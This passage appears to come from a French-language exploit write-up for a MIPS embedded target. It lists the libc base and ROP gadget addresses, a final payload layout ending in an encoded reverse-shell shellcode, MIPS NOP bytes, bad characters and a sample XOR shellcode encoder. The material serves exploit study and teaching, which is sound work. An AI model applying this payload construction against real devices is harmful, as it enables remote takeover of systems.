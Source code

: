 ***

### <mark style="color:blue;">6. Calcul des Adresses</mark>

**Base LibC** : `0x2b259000`

#### Adresses des gadgets

```
1er ROP Gadget ($ra) = 0x2B2AA1C8
2ème ROP Gadget ($s3) = 0x2b27395c  
Fonction sleep ($s1) = 0x2b2a8fd0
3ème ROP Gadget = 0x2b2a0eb8
4ème ROP Gadget = 0x2b2788c0
```

***

### <mark style="color:blue;">7. Structure du Payload Final</mark>

```
5117 octets + 
Registres $s0-$s7 contrôlés +
Registre $ra (1er gadget) +
7 NOP +
2ème $s1 (4ème gadget) +
NOP +
2ème $ra (3ème gadget) +
14 NOP +
Décodeur shellcode +
Fonction fork() encodée +
Shellcode reverse shell encodé
```

**Instruction NOP MIPS** : `\x27\x70\xc0\x01` (`nor t6,t6,zero`)

***

### <mark style="color:blue;">8. Encodage du Shellcode</mark>

#### Caractères interdits

`0x20 0x00 0x3a 0x0a 0x3f`

#### Exemple d'encodeur XOR simple

```assembly
li $s1, 9999          # Clé XOR
la $s2, 0($sp)        # Adresse pile
lw $t2, 4($s2)        # Charger données
xor $v1, $t2, $s1     # XOR
sw $v1, 4($s2)        # Sauvegarder
```
